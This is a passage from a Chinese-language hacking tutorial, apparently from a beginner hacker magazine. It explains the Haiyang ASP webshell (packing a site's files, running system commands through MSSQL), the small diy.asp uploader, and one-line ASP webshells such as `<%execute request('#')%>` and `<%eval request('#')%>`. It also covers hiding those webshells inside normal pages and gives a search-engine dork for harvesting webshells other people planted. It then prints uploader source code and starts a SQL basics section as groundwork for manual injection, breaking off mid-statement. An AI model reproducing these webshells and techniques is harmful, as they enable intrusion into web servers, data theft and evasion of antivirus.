

#### 7. 文件夹打包/解开器

有时候我们对网站的数据很感兴趣，就可以利用这个功能把网站的所有内容打包成一个文件，然后下载回来慢慢研究，如图10。



在“文件夹打包”处填上想要打包的路径，例如 `c:\inetpub\wwwroot`，单击“开始打包”后可生成打包文件。把它下载回来后还不能直接用 WinRAR 解压缩读取里面的内容，还需要使用海阳 ASP 木马的“文件包解开”功能把它解开。可在“文件包解开”处填写下载回来的 `HYTop.mdb` 文件，解开后内容会被释放到指定目录；也可配合 `unpack.vbs` 在同目录双击执行进行解压。

#### 8. 微软数据库查看/操作器

“微软数据库查看/操作器”是用来操作数据库的。当遇到 MSSQL 数据库时，如果能够得到数据库用户名和密码，而用户权限又比较高时就可以利用这个功能来执行命令。按图示填写服务器地址、用户名、密码、数据库名等，连接成功后可进入操作界面；单击“转到 SQL 命令执行”可进入执行界面。在权限较大的情况下，甚至可以执行系统命令，这也是提升 ASP 木马权限的一种方法。



### 二、旁注——网站小助手

旁注—网站小助手就是我们经常用到的 `diy.asp`。这个 ASP 木马体积较小，不容易被杀毒软件查杀。上传到支持 ASP 的空间后，运行界面如图12所示。



在“输入保存的路径”处输入要保存的文件在服务器上的物理路径；在“输入文件的内容”处填写要上传文件的代码。保存成功后文件就被成功传到网站上。

> 小知识：什么叫小马转大马。常说的小马通常是体积小、功能少的 ASP 木马（如 `diy.asp`），大马则是体积较大但功能更丰富的木马。

做 ASP 木马（如海阳顶端 ASP 木马），为什么还需要使用小马来传大马呢，直接传不是很方便吗？有时，在我们入侵的过程中因为各种限制因素，只能够先得到一个功能简单、体积较小的 ASP 木马。这个小马很显然是不能满足我们下一步入侵需要的。因此，通过这个小马，再上传一个功能强大的“大马”是入侵中非常普遍的操作……这就是经典的“小马传大马”。

> **小技巧：**
>
> 《菜鸟大客》图7-2书上的标题为什么是“旁注——网站小助手”呢？有些看过想通过利用这个标题，我们不用入侵也照样能获得很多的 webshell 呢？很多人在使用 `diy.asp` 时都不会去修改程序内容，这样就会在 IE 的标题栏里显示出上面的信息。我们可以通过搜索引擎来批量搜索含有这种标题的网页（搜索关键词 `intitle:` 旁注网站小助手），这样大把大把的 webshell 就到手了……

### 三、一句话木马

一句话木马分为木马服务端和木马客户端，木马服务端是放在服务器上面的。因为木马的内容只有一句代码所以被称为一句话木马，木马客户端是我们在本地运行的文件。因为木马服务端体积小代码少，所以很容易躲避杀毒软件的查杀。

#### 1. `<%execute request("#")%>` 一句话木马

典型的一句话木马的服务端代码为 `<%execute request("#")%>`。把这段代码保存为 ASP 格式的文件，上传到网站中，比如上传地址是 `http://127.0.0.1/poison.asp`。拿出它的专用连接器“**一句话木马连接客户端.htm**”，打开后，在“ASP URL”中填入 `http://127.0.0.1/poison.asp`，单击“提交”即可得到一个类似 webshell。



仔细观察一下 `<%execute request("#")%>` 这句代码，里面的“#”就是我们一句话木马的“密码”，我们可以把它改成任意字符，例如 `<%execute request("cmd")%>`、`<%execute request("poison")%>` 等。这样可以避免别人发现我们的一句话木马后轻松连接。

#### 2. 海阳顶端 eval 版一句话木马

上面的那个一句话木马难免显得有些简陋，功能也太少。海阳顶端 eval 版一句话木马提供了强大的功能，能够实现“大马”的全部功能。代码为 `<%eval request("#")%>`，其中“#”也是木马的“密码”，可以改为其它内容，例如 `<%eval request("duyao")%>`，此时连接端的“密码”也要改为“duyao”。



在代码中找到 `Const userPassWord = ""` 管理密码，可以设置登录时使用的密码，例如改为 `Const userPassWord = "duyao"`，那么连接成功后的登录密码就是“duyao”。如果仍为空，表示不设置密码，出现登录界面时直接点“登录”即可连接。

#### 3. 隐藏一句话木马

为了更好地隐藏一句话木马，使 webshell 更隐蔽，我们可以把一句话木马插入到正常的 ASP 文件中。这样被插入一句话木马的网页就成了隐藏的 webshell。对于还不懂 ASP 的菜鸟来说，可以简单地把一句话木马代码插入到正常 ASP 网页最后。

## 四、自己分析ASP小马

看着前辈们写出的 ASP 木马，我们小菜什么时候才能自己动手写个“专版”的 ASP 木马呢？下边，我再给大家简单介绍一下“旁注——网站小助手”的原理，在明白了原理后，我们就可以自己动手来写 ASP 木马了。先来了解一点必须的 ASP 知识。

### 1. 表单FORM

##### 小知识：什么是表单

表单是属于 HTML 语法的知识，主要是提供一个表单格式的环境来输入、输出一些信息，达到客户与服务器交互的目的……图15就是一个表单的形式。



图15

#### ①语法

```html
<form action="" method="">
  <input type="" name="" size="">
  ...
</form>
```

**action**：指向处理提交数据的文件 URL 地址。若 `action=""`，则由文件本身处理提交数据。  

**method**：数据提交方式，分为 `GET` 和 `POST`。GET 会把参数显示在地址栏，POST 把数据放在数据包中，适合较大信息量提交。

#### ②输入格式类型：input

语法格式如下：`<input type="" name="" value="" size="">`。Type 为输入数据类型，Name 为字段变量名，Value 为初始值，Size 为字段大小。

| 输入数据类型 | 类型说明 |
|---|---|
| TEXT | 文本框类型，是一个单行文本框 |
| PASSWORD | 密码文本框类型，也是一个单行文本框，输入内容以 * 显示 |
| HIDDEN | 隐藏类型，访问者看不到隐藏域的信息 |
| SUBMIT | 创建一个提交数据按钮，单击提交按钮后，表单数据会传送给由 ACTION 指定的处理程序 |
| RESET | 创建一个提交放弃按钮，单击后删除已输入的数据 |

#### ③TEXTAREA 文字区域输入（滚动文本框）

滚动文本框用于输入多行文本内容。

```html
<textarea name="" cols="" rows=""></textarea>
```

`name` 记录输入值，`cols` 为宽度（字符数），`rows` 为高度（行数）。

“旁注——网站小助手”的主要功能是上传文件，把“输入的内容”保存到指定路径。实现该功能要用到 ASP 的“文件存取组件”（FSO 组件）。

### 2. ASP中创建文本文档

要创建文本文档并操作，先创建 `FileSystemObject` 对象，再通过对象函数 `CreateTextFile` 建立文件，最后关闭文件。

- 1. 创建 FileSystemObject 的一个对象
- 2. 创建文本文档
- 3. 分析代码

```asp
<%
set fso对象名 = Server.CreateObject("Scripting.FileSystemObject")
%>
```

```asp
<%
Set FILE = fso对象.CreateTextFile(filename, True)
%>
```

`FILE` 指向刚创建文件；`filename` 为路径；`True` 表示存在则覆盖。写入使用 `FILE.write(string)`，结束后 `FILE.close`。

```asp
<form action="" method=post>
<%response.write("保存文件的物理路径")%><br>
<input type=text size=80 name=path><br>
<%response.write("当前文件物理路径:" & server.mappath(Request.ServerVariables("SCRIPT_NAME")))%><br>
<textarea name=data cols=60 rows=15 width=32></textarea><br>
...
```

```asp
<input type="submit" value="保存">
</form>
<%
' 创建 FileSystemObject 与 TextFile，对 request("data") 写入 request("path")
Set duyaoFSO = Server.CreateObject("Scripting.FileSystemObject")
Set duyaoFILE = duyaoFSO.CreateTextFile(trim(request("path")), True)
duyaoFILE.write data
duyaoFILE.close
Set duyaoFILE = Nothing
Set duyaoFSO = Nothing
%>
```

单版本的小马就成功了，如果你懂一些 HTML 语法知识，还可以美化一下自己的小马。……（上方为关于 ASP 木马代码的讲解段落）

上面这段代码把“//”后面的注释去掉然后保存为 ASP 格式的文件，……

## 手动注入也精彩——数据库基础篇



正文叙事段落：讲述“两个小菜”争论检测注入点与权限结果（SA、DB_OWNER）的故事，并引出“手动注入”主题。



> **小知识：什么是 SQL？**
>
> SQL 的全称是 Structured Query Language（结构化查询语言），用于对数据库进行查询、更新、删除等操作。

### 一、认识数据库

数据库是按规则组织的数据集合。常见数据库系统有 Access、MSSQL Server、MySQL、Oracle 等。数据表由记录（行）和字段（列）组成，行列交叉处为值。

### 二、基本的 SQL 语句

在学习手动注入前，需要先掌握基础 SQL 语句，这是注入中的基础知识。

基本 SQL 语句包括：查询（SELECT）、插入（INSERT）、更新（UPDATE）和删除（DELETE）。

#### 1. 最简单的 SELECT 语句

```sql
SELECT 字段名 FROM 数据表;
SELECT * FROM ADMIN;
SELECT username FROM ADMIN;
SELECT TOP 5 * FROM ADMIN;
```

## 菜鸟学堂

如何来测试这些语句呢？我们使用微软的 Access 来进行测试。Access 是安装 Office 时默认安装的，在“开始”→“程序”菜单里可以直接找到打开。使用 Access 打开一个数据库文件（扩展名为 mdb 就行），选择“查询”选项，如图2。双击“在设计视图中创建查询”，会打开如图3所示的窗口。




在“显示表”的对话框里单击关闭，关闭该对话框。选择主菜单栏下的“SQL 视图”，如图4。在显示的窗口中，输入相应的查询语句，然后单击“运行”按钮，如图5。





运行的结果如图6所示，如果还想继续查询的话，就回到输入查询 SQL 语句的窗口，选择如图7所示的菜单。对于其它形式的 SQL 语句也可以通过这样的过程来进行测试。





#### 2. 条件查询语句

有时我们仅仅想得到满足一定条件的数据，例如想得到用户名为 poison 的用户密码，这时就要用到条件查询语句了。在 SQL 中可以使用 WHERE 来实现。

```sql
SELECT 字段名 FROM 数据表 WHERE 筛选条件
SELECT password FROM ADMIN WHERE username='poison';
SELECT password FROM ADMIN WHERE username='poison' and id=1;
SELECT * FROM ADMIN WHERE id BETWEEN 1 AND 10;
```

#### 3. 删除数据记录的语句

```sql
DELETE FROM 数据表 WHERE 条件
DELETE FROM ADMIN WHERE username='poison';
```

删除用户名为 poison 的记录，如果没有 WHERE 的限制将删除所有记录。

#### 4. 更新数据记录的语句

```sql
UPDATE 数据表 SET 字段名=新值 WHERE 条件
UPDATE ADMIN SET password='123456' WHERE username='poison';
```

更新 ADMIN 数据表中用户名为 poison 的用户的密码为 123456。

#### 5. 添加数据记录的语句

```sql
INSERT INTO 数据表 VALUES（字段新值）
